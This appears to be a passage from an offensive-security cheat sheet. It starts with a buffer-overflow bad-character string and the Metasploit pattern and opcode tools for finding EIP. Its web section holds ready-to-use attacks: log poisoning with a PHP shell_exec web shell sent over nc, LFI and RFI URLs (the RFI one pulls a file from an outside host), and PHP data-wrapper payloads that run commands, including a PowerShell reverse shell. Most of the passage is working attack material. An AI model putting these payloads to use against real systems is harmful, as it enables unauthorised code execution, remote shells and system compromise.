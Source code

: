 ```python
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

### Locate EIP
`msf-pattern_create -l 2196` generate unique pattern to overflow the stack.

`msf-pattern_offset -l 2196 -q 72433372` locate the offset of the value in EIP at crashtime. 


### nsf-nasm_shell (Generate Opcodes)
```
kali@kali: ~$ msf-nasm_shell
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > JMP EAX
00000000  FFE0              jmp eax
nasm > 
```

## Web Application Exploits

### LFI (Local File Inclusion)
[Linux LFI List](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi-linux-list)

#### Contaminating Log Files
Write php code to log file for executing shell commands
```
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig` call url with LFI and GET['cmd']

### RFI (Remote File Inclusion)
Note that the `%00` at the end helps do the damn thing if need be.
```
https://sucka.com/internal/advanced_comment_system/index.php?ACS_path=http://192.168.119.150/test.txt%00
```


### PHP Wrappers
`http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>` to execute arbitrary php code.

`http://192.168.111.53:4443/site/index.php?page=data:text/plain,<?php echo shell_exec("powershell.exe -executionPolicy Unrestricted -InputFormat none -File reverse.ps1") ?>` reverse shell via PowerSHell using wrappers
